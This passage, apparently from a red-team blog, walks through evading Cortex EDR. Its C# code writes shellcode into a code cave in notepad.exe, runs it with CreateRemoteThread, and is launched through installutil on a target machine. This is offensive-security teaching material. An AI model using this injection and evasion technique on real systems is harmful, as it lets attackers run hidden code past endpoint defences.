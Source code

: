 ```csharp
    p.StartInfo.CreateNoWindow = false;
    p.Start();

    // Get the base address of notepad.exe and add the offset to the RX region (code cave)
    IntPtr NotepadBase = p.MainModule.BaseAddress;
    IntPtr WriteAddress = NotepadBase + 0x25800;

    // Open a handle to the process
    // (PROCESS_VM_OPERATION | PROCESS_VM_WRITE) == 0x28
    IntPtr hProcess = OpenProcess(0x28, 0, (uint)p.Id);

    bool ret = false;
    int lpNumberOfBytesWritten = 0;
    ret = WriteProcessMemory(hProcess, WriteAddress, Shellcode, Shellcode.Length, out lpNumberOfBytesWritten);
}
```

Now rebuild, upload `iu.exe` to the target system, and `installutil /u iu.exe` to trigger `Uninstall()`, and we get no alerts from Cortex. It seems we can write our shellcode to the code cave inside notepad.exe. As a reminder, writing directly to memory already marked as executable saves us from having to allocate RX memory ourselves with `VirtualAllocEx()`, which is risky.

Note: We're storing the shellcode in a file on disk, which is not ideal. The reason I did this is because it saves having to rebuild and re-upload `iu.exe` if the shellcode embedded inside it changes. And since Cortex wasn't detecting the shellcode file on disk, it's not a big deal (it's just MessageBox shellcode at this point).

With our shellcode where we want it, we can now try to introduce and call `CreateRemoteThread()` to execute it.

<br/>
<hr/>

# CreateRemoteThread
```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

We make two small updates to the C# code:

```csharp
    [DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    ...

    ret = WriteProcessMemory(hProcess, WriteAddress, Shellcode, Shellcode.Length, out lpNumberOfBytesWritten);

    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, WriteAddress, IntPtr.Zero, 0, IntPtr.Zero);
```
